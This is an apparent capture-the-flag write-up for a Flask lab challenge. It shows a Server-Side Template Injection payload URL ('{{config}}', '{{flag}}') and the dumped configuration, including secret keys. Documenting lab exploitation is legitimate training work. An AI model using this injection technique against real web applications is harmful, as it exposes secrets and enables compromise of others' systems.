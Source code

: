 ## Challenge 27: Keep it secret [244 pts]
> Leaving these dev sites around is just reckless!
> **HINT:** Your answer to "Double Agent" may help you here

### Write-up

- after navigating into the `dev_page?`, our team started digging around;
- using the hint from the `Double Agent` challenge, we were able to force the website into development mode with an appended string `formatting=false`;
- from here we found that there was a new un-formatted table and noticed that the “flags” stock was set to `1` whereas it was set to `0` on the `BOBDev/1.4` browser.
- we also notice a `debug =` string, so we start playing around and doing some research and attempt to append system print commands into the URL payload using Server-Side Template Injection with Flask. This is because Flask allows for the creation of templates using strings of HTML in the Python source code or laid out in static files in a templates directory local to `webpentest.cysca`
- input was sanitised and so we started testing with single strings
- forcing `http://webpentest.cysca:8000/dev_page?formatting=false&flags=1&debug={{config}}` printed out the config
- and so since there is `1` flag in stock, we would need to print `{{flag}}` in the appended parameter
- profit

config gives you:

    ```debug = <Config {'JSONIFY_PRETTYPRINT_REGULAR': False, 'SERVER_NAME': None, 'JSON_AS_ASCII': True, 'SESSION_REFRESH_EACH_REQUEST': True, 'SESSION_COOKIE_PATH': None, 'ENV': 'production', 'SECRET_KEY': 'secret', 'MAX_CONTENT_LENGTH': None, 'SESSION_COOKIE_DOMAIN': False, 'PREFERRED_URL_SCHEME': 'http', 'USE_X_SENDFILE': False, 'TRAP_HTTP_EXCEPTIONS': False, 'SESSION_COOKIE_NAME': 'session', 'BASE_DIR': '/opt/cysca-web', 'DEBUG': True, 'PROPAGATE_EXCEPTIONS': None, 'SQLALCHEMY_DATABASE_URI': 'sqlite:////opt/cysca-web/app.db', 'SESSION_COOKIE_SECURE': False, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_HTTPONLY': True, 'CSRF_SESSION_KEY': 'secret', 'TRAP_BAD_REQUEST_ERRORS': None, 'EXPLAIN_TEMPLATE_LOADING': False, 'APPLICATION_ROOT': '/', 'JSONIFY_MIMETYPE': 'application/json', 'THREADS_PER_PAGE': 2, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'TESTING': False, 'SESSION_COOKIE_SAMESITE': None, 'DATABASE_CONNECT_OPTIONS': {}, 'JSON_SORT_KEYS': True, 'CSRF_ENABLED': True, 'TEMPLATES_AUTO_RELOAD': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'MAX_COOKIE_SIZE': 4093}>```
